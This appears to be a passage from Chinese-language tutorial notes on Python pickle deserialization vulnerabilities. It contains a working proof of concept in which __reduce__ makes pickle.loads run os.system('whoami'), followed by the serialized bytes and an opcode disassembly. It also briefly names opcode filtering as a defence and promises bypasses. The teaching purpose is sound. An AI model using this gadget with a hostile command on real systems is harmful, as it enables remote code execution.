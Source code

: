 ```text
platform.popen
```

#### 示例

```python
import pickle
import pickletools

class Person(object):
    def __init__(self, username, password):
        self.username = username
        self.password = password

    def __reduce__(self):
        return (__import__('os').system, ('whoami', ))

admin = Person('admin', '123456')
result = pickle.dumps(admin, 4)

print(result)
user = pickle.loads(result)
```

```text
输出:
b'\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.'
root

pickletools:
 0: \x80 PROTO      4
 2: \x95 FRAME      27
11: \x8c SHORT_BINUNICODE 'posix'
18: \x8c SHORT_BINUNICODE 'system'
26: \x93 STACK_GLOBAL
27: \x8c SHORT_BINUNICODE 'whoami'
35: \x85 TUPLE1
36: R    REDUCE
37: .    STOP
```

#### 一些过滤

可以看到__reduce__的标志十分明显，只要对`R`及其涉及的函数进行限制即可。这里介绍几种过滤及绕过方法

1. import 白名单
2. 过滤 R

### 全局变量覆盖

> 剩下的可以查看这篇文章 <http://www.bendawang.site/2018/04/18/Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%9A%84%E8%8A%B1%E5%BC%8F%E5%88%A9%E7%94%A8/>
